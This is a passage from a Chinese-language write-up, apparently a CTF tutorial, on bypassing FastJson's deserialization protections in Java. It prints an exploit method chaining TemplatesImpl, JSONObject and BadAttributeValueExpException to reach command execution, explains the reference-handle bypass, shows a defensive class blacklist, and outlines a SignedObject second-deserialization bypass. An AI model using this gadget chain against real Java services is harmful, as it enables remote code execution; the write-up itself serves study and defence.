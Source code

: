 EXP 如下：
```java
    public static Object toString2RCE_BypassWithReference(String cmd) throws Exception {
        TemplatesImpl templates = GTemplates.getEvilTemplates(cmd);

        JSONObject jsonObject = toString2Getter(templates);

        BadAttributeValueExpException bd = GBadAttributeValueExpException.deserialize2ToString(jsonObject);

        HashMap hashMap = new HashMap();
        hashMap.put(templates,bd);

        return hashMap;
    }
```

最后再引用大佬文章中的总结，理解这一过程是理解绕过的关键：

> 反序列化时 ArrayList 先通过 readObject 恢复 TemplatesImpl 对象，之后恢复 BadAttributeValueExpException 对象，在恢复过程中，由于 BadAttributeValueExpException 要恢复 val 对应的 JSONArray/JSONObject 对象，会触发 JSONArray/JSONObject 的 readObject 方法，将这个过程委托给 SecureObjectInputStream，**在恢复 JSONArray/JSONObject 中的 TemplatesImpl 对象时，由于此时的第二个 TemplatesImpl 对象是引用类型**，通过 readHandle 恢复对象的途中不会触发 resolveClass，由此实现了绕过。

绕过的关键在于 FastJson 仅仅在 JSONObject/JSONArray 的 readObject 中进行了限制，因此只要在进入 JSONObject/JSONArray 的 readObject 方法之前将 TemplatesImpl 反序列化出来，反序列化第二个 TemplatesImpl 对象时，就会被当作引用对象从而绕过 resolveClass。正确的写法应该是继承 ObjectInputStream 并重写 resolveClass，由这个类来做反序列化的入口，例如如下的 MyInputStream 类。

```java
    public static class MyInputStream extends ObjectInputStream {
        private final List<Object> BLACKLIST = Arrays.asList("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl", "com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter", "com.sun.syndication.feed.impl.ObjectBean", "import com.sun.syndication.feed.impl.ToStringBean");

        public MyInputStream(InputStream inputStream) throws IOException {
            super(inputStream);
        }

        protected Class<?> resolveClass(ObjectStreamClass cls) throws ClassNotFoundException, IOException {
            if (this.BLACKLIST.contains(cls.getName())) {
                throw new InvalidClassException("The class " + cls.getName() + " is on the blacklist");
            } else {
                return super.resolveClass(cls);
            }
        }
    }
```
使用这个类作为反序列化的入口类，就相当于给所有的类（不仅仅是 JSONArray/JSONObject）加上了黑名单，第一个 TemplatesImpl 在反序列化时就会触发 resolveClass。

### 二次反序列化绕过
当题目使用安全的写法（继承 ObjectInputStream 并重写resolveClass，由这个类来做反序列化的入口），就只能考虑二次反序列化绕过黑名单了。EXP 的步骤如下：
1. 构造 JSONObject 引用绕过 SecureObjectInputStream 的 resolveClass 方法。
2. 使用 SignedObject 套一层绕过入口类 MyInputStream 的 resolveClass 方法。
